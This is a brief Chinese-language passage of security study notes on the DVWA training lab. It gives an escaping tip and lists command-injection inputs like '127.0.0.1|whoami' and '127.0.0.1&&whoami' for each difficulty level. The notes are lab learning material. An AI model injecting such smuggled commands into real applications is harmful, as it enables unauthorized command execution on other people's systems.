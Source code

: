 **3****、参数的值尽量使用引号包裹，并在拼接前调用****addslashes** **进行转义**

 

## **DVWA** **命令注入**

### **low**

> **127.0.0.1| whoami**
>
> **127.0.0.1|whoami**
>
> **127.0.0.1&&whoami**
>
> **127.0.0.1;whoami     ?**
>
> **127.0.0.0.1||whoami**

### **medium**

> **127.0.0.1| whoami**
>
> **127.0.0.1|whoami**
>
> **127.0.0.0.1||whoami**

### **high**

> **127.0.0.1|whoami**

------